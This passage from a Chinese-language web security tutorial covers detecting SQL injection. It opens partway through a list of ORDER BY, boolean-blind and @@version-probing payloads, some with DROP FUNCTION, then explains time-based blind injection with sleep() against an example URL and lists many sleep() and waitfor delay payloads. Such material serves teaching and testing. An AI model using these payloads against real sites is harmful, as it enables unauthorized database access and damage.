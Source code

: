 ```
 ORDER BY 16 
 ORDER BY 17 
 ORDER BY 18 
 ORDER BY 19 
 ORDER BY 20 
 ORDER BY 21 
 ORDER BY 22 
 ORDER BY 23 
 ORDER BY 24 
 ORDER BY 25 
 ORDER BY 26 
 ORDER BY 27 
 ORDER BY 28 
 ORDER BY 29 
 ORDER BY 30 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'
```

**2.1.3、基于时间的判断方法**<br />基于时间的判断方法与基于误差的判断方法使用情景相似，不同的是在基于时间的判断方法中是利用`sleep()`或`benchmark()`等函数让MySQL的执行时间变长。时间盲注多与`if(expr1,expr2,expr3)`结合使用。

设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"`

当我们输入`http://xmtxsec.top/test.php/?id=1`<br />执行的SQL语句为：`SELECT * FROM users WHERE id='1' LIMIT 0,1`<br />**分析：**`id=1`永远为真，所以这条SQL语句永远成立。返回的页面结果正确。

这时可以继续输入：`http://xmtxsec.top/test.php/?id=1' and sleep(5)--+`<br />执行的SQL语句为：`SELECT * FROM users WHERE id='1' and sleep(5)--+' LIMIT 0,1`<br />**分析：** 此时真正执行的SQL语句为`SELECT * FROM users WHERE id='1' and sleep(5)`，`id=1`永远为真，如果页面正常返回了，并且是延迟了5秒才返回，则说明SQL语句的`and`成功执行，那么就可以判断`id`参数存在SQL注入漏洞。

**类似的Payload有：**
```
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```